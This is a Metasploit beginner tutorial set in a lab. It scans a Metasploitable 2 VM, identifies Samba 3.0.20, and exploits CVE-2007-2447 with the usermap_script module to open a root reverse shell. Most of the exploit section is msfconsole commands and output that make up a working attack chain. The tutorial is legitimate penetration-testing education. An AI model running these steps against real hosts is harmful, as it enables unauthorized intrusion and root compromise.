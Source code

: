 ```yaml
---
title: "Metasploit Basics"
description: "From the first start to a reverse shell on a vulnerable host"
# categories: [ "Security" ]
pubDate: 2022-11-19
tags: [ "Metasploit", "Kali", "Metasploitable" ]
---
```


This guide show a basic way to use Metasploit (from the Kali Linux distribution). As a result, a reverse shell on a vulnerable host will be open.

This is *not* a guide for `Metasploitable 2`.

## Requirements

To follow this guide exactly:

- a VMware virtual machine with Kali Linux and Metasploit installed. See [Kali Linux on VMware Workstation](/blog/kali_vmware) if you need assistance.
- [Metasploitable 2](https://docs.rapid7.com/metasploit/metasploitable-2) virtual machine. I've downloaded [Metasploitable 2 from SourceForge](http://sourceforge.net/projects/metasploitable/files/Metasploitable2/) site.

## Getting started

Prepare the `Metasploitable 2` guest:

- Load `Metasploitable 2` virtual machine in VMware and remove the network adapter that is **not** connected to the `Host-only` network.
- Start `Metasploitable 2` and login with `msfadmin:msfadmin` credential
- Execute `ip a` and note the IPv4 address of `eth0`, in my case was `172.16.115.129`

In Kali open a terminal, execute `ip a` and note the IPv4 address of `eth0`, in my case was `172.16.115.130`, then and start `msfconsole`.

**Note:** Most of the commands in `msfconsole` will display their help if called with `-h` flag.

```sh
# create a new workspace
msf6 > workspace -a metasploitable
[*] Added workspace: metasploitable
[*] Workspace: metasploitable

# db_nmap uses nmap then stores the results in the workspace's database
# without port specification it will scan the most common 1000 TCP ports
# using the flag `-sV` will also query the open ports to try to identify the services
msf6 > db_nmap -n -sV 172.16.115.129
[*] Nmap: Starting Nmap ...
[...]

# is only one host now but using the `host` command you can see all the hosts in this workspace
msf6 > hosts
Hosts
=====
address         mac  name  os_name  os_flavor  os_sp  purpose  info  comments
-------         ---  ----  -------  ---------  -----  -------  ----  --------
172.16.115.129             Linux                      server

# the `services` command shows the services in this workspace
msf6 > services
Services
========
host            port   proto  name         state  info
----            ----   -----  ----         -----  ----
172.16.115.129  21     tcp    ftp          open   vsftpd 2.3.4
172.16.115.129  22     tcp    ssh          open   OpenSSH 4.7p1 Debian 8ubuntu1 protocol 2.0
172.16.115.129  23     tcp    telnet       open   Linux telnetd
172.16.115.129  25     tcp    smtp         open   Postfix smtpd
172.16.115.129  53     tcp    domain       open   ISC BIND 9.4.2
172.16.115.129  80     tcp    http         open   Apache httpd 2.2.8 (Ubuntu) DAV/2
172.16.115.129  111    tcp    rpcbind      open   2 RPC #100000
172.16.115.129  139    tcp    netbios-ssn  open   Samba smbd 3.X - 4.X workgroup: WORKGROUP
172.16.115.129  445    tcp    netbios-ssn  open   Samba smbd 3.X - 4.X workgroup: WORKGROUP
172.16.115.129  512    tcp    exec         open   netkit-rsh rexecd
172.16.115.129  513    tcp    login        open   OpenBSD or Solaris rlogind
172.16.115.129  514    tcp    shell        open   Netkit rshd
[...]

# using a dedicated module we may get better information about Samba's version
msf6 > use auxiliary/scanner/smb/smb_version
# set the RHOSTS option with the address of the Metaspoitable vm
msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS 172.16.115.129 
RHOSTS => 172.16.115.129
# start the module
msf6 auxiliary(scanner/smb/smb_version) > run

[*] 172.16.115.129:445    - SMB Detected (versions:1) (preferred dialect:) (signatures:optional)
[*] 172.16.115.129:445    -   Host could not be identified: Unix (Samba 3.0.20-Debian)
[*] 172.16.115.129:       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

# the new version was stored in workspace's database
msf6 auxiliary(scanner/smb/smb_version) > services
Services
========
host            port   proto  name         state  info
----            ----   -----  ----         -----  ----
[...]
172.16.115.129  445    tcp    smb          open   Unix (Samba 3.0.20-Debian)
[...]
```

## Find an exploit

**Method  1** Is faster to use `search Samba` because the list of available
exploits is way shorter that the list of vulnerabilities

**Method 2** Find the exploits with `searchsploit samba` :

```sh
$ searchsploit samba
[...]
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)  | unix/remote/16320.rb
```

then search the exploit in Metasploit:

```sh
msf6 > search username map
Matching Modules
================
   #  Name                                        Disclosure Date  Rank       Check  Description
[...]
   3  exploit/multi/samba/usermap_script          2007-05-14       excellent  No     Samba "username map script" Command Execution
```

**Method 3** Scan the host with GVM (OpenVAS) or another vulnerability scanner then, if a vulnerability
is found search it in Metasploit:

```sh
msf6 auxiliary(scanner/smb/smb_version) > search CVE-2007-2447
Matching Modules
================
   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution
```

**Method 4** Search for Samba in a CVE list:

- [NIST - Search Vulnerability Database](https://nvd.nist.gov/vuln/search)
- [MITRE - Search CVE List](https://cve.mitre.org/cve/search_cve_list.html)
- etc.

I have used "Samba code" as a search term and found that CVE-2007-2447 allows remote attackers to execute arbitrary code in Samba version 3.0.20.

## Exploit

```sh
# select the exploit
msf6 auxiliary(scanner/smb/smb_version) > use exploit/multi/samba/usermap_script
[*] Using configured payload cmd/unix/reverse_netcat

# View the full module information with the info, or info -d command

# Check module's options
msf6 exploit(multi/samba/usermap_script) > show options
Module options (exploit/multi/samba/usermap_script):
   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT   139              yes       The target port (TCP)

Payload options (cmd/unix/reverse_netcat):
   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  127.0.0.1        yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:
   Id  Name
   --  ----
   0   Automatic

# set the RHOSTS option with the address of the Metaspoitable vm
msf6 exploit(multi/samba/usermap_script) > set RHOSTS 172.16.115.129 
RHOSTS => 172.16.115.129

# because the payload uses a reverse connection LHOST must be the address
# of the this vm
msf6 exploit(multi/samba/usermap_script) > set LHOST 172.16.115.130 
LHOST => 172.16.115.130

# start
msf6 exploit(multi/samba/usermap_script) > exploit
[*] Started reverse TCP handler on 172.16.115.130:4444 
[*] Command shell session 1 opened (172.16.115.130:4444 -> 172.16.115.129:53175) at 2022-11-19 11:12:13

# try some commands on the remote host
uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
id
uid=0(root) gid=0(root)
exit
[*] 172.16.115.129 - Command shell session 1 closed.

# bye
msf6 exploit(multi/samba/usermap_script) > exit
```
